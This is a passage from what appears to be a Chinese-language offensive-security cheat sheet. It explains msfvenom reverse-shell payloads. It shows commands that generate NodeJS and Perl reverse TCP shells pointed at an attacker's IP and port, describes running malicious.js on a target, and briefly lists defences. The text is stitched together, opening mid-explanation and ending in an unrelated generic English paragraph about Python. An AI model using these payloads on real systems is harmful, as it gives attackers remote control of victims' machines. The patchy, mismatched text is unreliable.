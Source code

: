 在上面的命令中，我们使用了 `nodejs/shell_reverse_tcp` payload，它会在目标系统上创建一个反向 TCP shell。我们需要将 `<attacker IP>` 替换为攻击者的 IP 地址，将 `<attacker port>` 替换为攻击者监听的端口号。生成的恶意脚本将保存在 `malicious.js` 文件中。

#### 运行恶意 NodeJS 脚本

要在目标系统上运行恶意 NodeJS 脚本，我们需要确保目标系统上已安装 NodeJS 运行时环境。然后，我们可以使用以下命令运行恶意脚本：

```bash
node malicious.js
```

运行恶意脚本后，它将尝试与攻击者的 IP 地址和端口建立反向 TCP 连接。一旦连接建立成功，攻击者将能够远程控制目标系统，并执行各种操作。

#### 防御措施

为了防止恶意 NodeJS 脚本的攻击，我们可以采取以下防御措施：

- 及时更新 NodeJS 运行时环境和相关模块，以修复已知的漏洞。
- 仅从受信任的来源下载和安装 NodeJS 模块。
- 使用防火墙和入侵检测系统来监控网络流量，并阻止恶意连接。
- 限制 NodeJS 进程的权限，确保其仅具有必要的权限。
- 定期进行安全审计和漏洞扫描，以及对系统进行补丁和更新。

通过采取这些防御措施，我们可以减少恶意 NodeJS 脚本对系统的威胁，并提高系统的安全性。
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
## **脚本语言负载**

### **Perl**
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### **Python（Python语言）**

Python is a high-level programming language that is widely used for its simplicity and readability. It is known for its clear and concise syntax, making it easy to learn and understand. Python supports multiple programming paradigms, including procedural, object-oriented, and functional programming. It has a large standard library that provides a wide range of modules and functions for various tasks.

Python is often used in the field of hacking due to its versatility and extensive libraries. It can be used for tasks such as web scraping, network scanning, exploit development, and automation. Python also has powerful frameworks and libraries, such as Scapy for packet manipulation, BeautifulSoup for HTML parsing, and Requests for HTTP requests.

Python is platform-independent, meaning that it can run on various operating systems, including Windows, macOS, and Linux. It has a large and active community that contributes to its development and provides support through forums, documentation, and online resources.

To run Python code, you need to have the Python interpreter installed on your system. The interpreter can be downloaded from the official Python website and is available for free. Once installed, you can write Python code in a text editor and save it with the .py extension. The code can then be executed by running the Python interpreter with the script file as an argument.
